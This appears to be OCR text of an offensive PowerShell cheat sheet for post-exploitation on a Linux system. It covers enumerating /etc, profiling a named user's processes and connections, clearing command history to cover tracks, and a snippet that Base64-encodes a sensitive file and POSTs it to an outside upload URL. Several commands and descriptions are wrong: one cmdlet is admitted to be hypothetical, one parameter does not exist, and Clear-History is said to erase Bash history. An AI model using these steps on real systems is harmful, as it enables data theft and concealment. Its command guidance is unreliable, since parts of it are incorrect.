 ## File and Directory Enumeration
**Script/Command:**
```
Get-ChildItem -Path /etc
```
**Description:** Lists files and directories in the specified path (e.g., `/etc`) for system exploration.
**Example:** Enumerate all files and directories in the `/etc` directory.

## Data Exfiltration
**Script/Command:**
```
$fileContent = Get-Content /path/to/sensitive-file.txt -Raw
$encodedContent = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($fileContent))
Invoke-RestMethod -Uri "https://snowcapcyber.com/upload" -Method POST -Body $encodedContent
```
**Description:** Encodes a file’s content in Base64 and sends it to an external server for data exfiltration.
**Example:** Exfiltrate the content of `/home/user/sensitive-file.txt` to `https://snowcapcyber.com/upload`.

## Covering Tracks - Clear Bash History
**Script/Command:**
```
Clear-History
```
**Description:** Clears the Bash command history to remove traces of executed commands.
**Example:** Erase the current session’s command history on the Linux system.

## User Profiling - Get User Information
**Script/Command:**
```
Get-User -Name andrewblyth
```
**Description:** Retrieves detailed information (e.g., UID, GID, home directory) for a specific user (hypothetical cmdlet).
**Example:** Get details for the user `andrewblyth`.

## User Profiling - Get User Processes
**Script/Command:**
```
Get-Process | Where-Object { $_.UserName -eq "andrewblyth" }
```
**Description:** Lists processes running under a specific user for activity profiling.
**Example:** Display processes running as `andrewblyth`.

## User Profiling - Get Network Connections
**Script/Command:**
```
Get-NetTCPConnection -OwningUser "andrewblyth"
```
**Description:** Displays TCP connections owned by a specific user for network activity analysis.
**Example:** List TCP connections for `andrewblyth`.

